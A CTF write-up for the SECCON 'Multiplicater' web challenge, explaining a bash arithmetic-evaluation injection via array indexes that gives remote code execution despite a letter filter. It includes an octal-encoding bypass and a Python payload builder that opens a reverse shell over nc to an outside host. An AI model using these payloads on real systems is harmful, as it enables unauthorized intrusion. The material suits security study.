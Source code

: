 # Multiplicater (web, 457p, 10 solved)

In the challenge we get access to a [cgi script](index.cgi).

The script is not very complex:

- It sets the variables var1 and var2 to be integer (yes, bash can have types variables!)
- It reads POST parameters we send via HTTP form, splits them with `awk` to extract the values
- Then it decodes urlencode
- Then it filters all letters from the input
- Finally it performs `bash arithmetic evaluation` of `var1 * var2`

```bash
typeset -i var1
typeset -i var2

POST_STRING=$(cat)

var1="$(echo $POST_STRING|awk -F'&' '{print $1}'|awk -F'=' '{print $2}'| nkf -w --url-input|tr -d a-zA-Z)"
var2="$(echo $POST_STRING|awk -F'&' '{print $2}'|awk -F'=' '{print $2}'| nkf -w --url-input|tr -d a-zA-Z)"

echo  "$var1" '*' "$var2 = $((var1 * var2))"
```

We don't know where the flag is, so we need an actual RCE here.

First issue here is that `tr -d a-zA-Z` removes all letters, so any payload we send has to be free of those.
This is not terrible if we can evaluate things like `$'\101'` in bash, because they will be interpolated to letters.

Another issue is that `var1` and `var2` upon assignment will be evaluated and casted to int.
Anything that is not a valid int will result in `0`.
This means that we can't really "leak" much with the last echo, because it will `always` result in integer, and it's inputs will always be integers.

This leaves us with not much space at all, we somehow need to gain RCE with `var1="$(echo SOMETHING)"`

This assignment, since the variable is typed, performs `arithmetic evaluation` before the assignment.
If we read the documentation, it `claims` thar such evaluation does perform shell expansion and variable substitution, however if we try to send a simple sanity check like `$$` as variable value, it doesn't actually work.

It took us a while, and actually someone reading through bash source code of the evaluation, to find out that there is a very special case for `evaluating array index` which is far more powerful!
I fact it provides full RCE there.

For example we can't do:

```bash
typeset -i var1
x='$(touch hacked)'
var1="$(echo $x)"
```

But we can do:

```bash
typeset -i var1
x='__[$(touch hacked)]'
var1="$(echo $x)"
```
And it actually works :)

With this it's pretty clear what to do, we just need to place a reverse-shell in such payload.
Remeber we can't use `a-zA-Z` but as mentioned earlier, we can easily bypass this:

```python
def encode(string):
    x = ["$'\\" + str(oct(ord(c)))[1:] + "'" for c in string]
    return "".join(x)
```

With this we can simply run:

```python
def main():
    echo = encode("echo")
    bash = encode("bash")
    payload = encode("nc tailcall.net 6666 | bash | nc tailcall.net 7777")
    pattern = "__[$(%s %s|%s)]" % (echo, payload, bash)
    print(pattern)


main()
```

Keep in mind the browser will encode the space in `%s %s|%s` to `+` when sending POST, so you should actually send it by hand to avoid this!

Finally connect to the target server to get the flag: `SECCON{Did_you_calculate_it?}`
